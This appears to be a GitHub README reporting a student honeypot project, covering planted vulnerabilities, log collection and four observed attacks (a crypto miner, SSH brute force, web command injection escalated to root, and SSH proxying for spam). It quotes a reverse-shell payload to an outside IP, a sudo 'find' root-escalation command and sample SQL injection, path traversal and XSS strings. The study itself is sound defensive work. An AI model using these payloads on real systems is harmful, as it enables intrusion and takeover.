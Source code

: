 # Honeypot Analysis Project

## 📝 Overview

This project involved setting up and monitoring a honeypot system to **analyze attacker behavior**. The goal was to deploy a system with known vulnerabilities, log interactions, analyze the attack patterns, and implement mitigation strategies to maintain the honeypot's operation. This report details the setup, findings, and countermeasures taken during the assignment.

---

## 🛠️ Setup

### Vulnerabilities Introduced

Several vulnerabilities were intentionally configured on the honeypot machine to attract and study attackers:

* **Created Account**: An account `admin:admin` was enabled. Initially, it had limited privileges, but later granted passwordless `sudo` access to `/bin/bash` to facilitate deeper analysis.
* **Vulnerable Daemons**:
    * `vsftp 2.3.4` (CVE-2011-2523): Backdoor leading to a reverse shell.
    * `log4shell vulnerable application` (CVE-2021-44228): Allows command injection.
    * `MySQL 5.5.23` (CVE-2012-2122): Authentication bypass vulnerability.
* **Vulnerable Web Application** (`http://130.89.144.11/MyApp/`):
    * *Log Page*: Weak credentials (`admin:password`).
    * *Ping Test Tool*: Command Injection (e.g., `; ls`).
    * *Users*: SQL Injection (e.g., `' OR 1=1`).
    * *View Documents*: File Inclusion (e.g., `page=../../../../etc/passwd`).
    * *Contact Us*: Cross-Site Scripting (XSS) (e.g., `<script>alert('XSS');</script>`).
* **Weak Sudo Configuration**:
    * `www-data` user granted passwordless `sudo` access to the `find` command.
    * `admin` user granted passwordless `sudo` access to `/bin/bash` (added later).

### Logging Methods

To capture attacker activity, logs were transferred from the honeypot (`130.89.144.11`) to a separate storage machine in near real-time:

* **Real-Time Log Transfer**:
    * System and application logs (`auth.log`, `syslog`, `audit.log`, `vsftpd.log`, Apache logs, etc.) from `/var/log` were continuously transferred.
    * This used SSH and the `tail -F` command, running within detached `screen` sessions on the storage machine.
    * Logs were stored in `/home/group1/automated_honeypot_logs` on the storage machine.
* **Network Traffic Capture (Tcpdump)**:
    * SSH was enabled on port 2222 on the honeypot for secure file transfer.
    * `tcpdump` captured traffic on `eth0` (excluding port 2222 to avoid capturing SCP traffic) into a `traffic.pcap` file on the honeypot.
    * A `cron` job ran every 5 minutes to transfer the `traffic.pcap` file to the storage machine using `scp` over port 2222.

---

## 📊 Monitoring and Analysis

Analysis involved manual log review, Python scripts for parsing and visualization, and network flow analysis (though the latter yielded no significant conclusions). Four main attack scenarios were identified:

### 1. Crypto Miner ⛏️
* **Detection**: Unauthorized SSH login as `admin` from `159.65.147.93` after a short brute-force session. DNS requests to `download.c3pool.org` and an HTTP GET request for `setup_c3pool_miner.sh` were observed. Subsequent DNS requests to `auto.c3pool.org` confirmed the miner (`xmrig`) connection to the C3Pool (Monero). System logs mentioned `xmrig` during an out-of-memory event. The miner's files were found in `/home/admin/c3pool/`.
* **Outcome**: The mining activity continued for several days until the VM ran out of memory. Later logs indicated the associated Monero wallet address was banned for being linked to a Botnet. The attacker's wallet address was identified, but Monero's privacy features prevented further tracing.

### 2. Brute Force Attacks 🔒
* **Detection**: Persistent, automated SSH login attempts observed in `auth.log`. Logs showed numerous `authentication failure` entries, often targeting the `root` user from various IPs (e.g., `39.103.169.90`) across multiple ports.
* **Analysis**: Visualization showed most attempts originated from **China** (>35,000) and the **United States** (>17,000). The most targeted username was **`root`** (>60,000 attempts), followed by common default/admin names like `ubuntu`, `oracle`, `admin`, and `git`.

### 3. Web Exploit to Root via Sudo Misconfiguration 🌐➡️👑
* **Detection**: A peer tester exploited the **Command Injection** vulnerability in the web application's Ping Test Tool (`/MyApp/vulnerabilities/exec/`) from IP `145.126.74.232`. The payload `127.0.0.1; bash -c 'bash -i >& /dev/tcp/145.126.74.232/80 0>&1'` established a reverse shell as the `www-data` user.
* **Privilege Escalation**: Audit logs (`ausearch -ua www-data`) showed the attacker used `sudo find . -exec /bin/bash \; -quit` to exploit the weak sudo configuration for `www-data`, gaining a root shell.
* **Persistence**: The attacker then logged in via SSH as `group1` from the same IP (`145.126.74.232`) and injected an **SSH public key** into `/home/group1/.ssh/authorized_keys` to create a backdoor.

### 4. SSH Proxy / Tunneling 🚇
* **Detection**: A large number of outgoing HTTP requests and many persistent SSH connections on port 2222 for the `admin` user were observed. TCP captures showed both SSH traffic on port 2222 and outgoing TLS/HTTPS traffic to various external websites.
* **Analysis**: IP address analysis revealed connecting IPs primarily originated from **Moscow, Russia**. Most successful `admin` logins also came from Russia (3718 logins from 23 hosts). Domain analysis (using `tshark`) showed connections to tracking/proxy checking services, cloud infrastructure APIs (Google, Amazon), and adult/ad websites, strongly indicating proxy usage.
* **Malicious Activity**: SMTP/POP/IMAP traffic was also detected, indicating the honeypot was used for sending **spam emails**. Extracted email content pointed towards a pharmacy scam
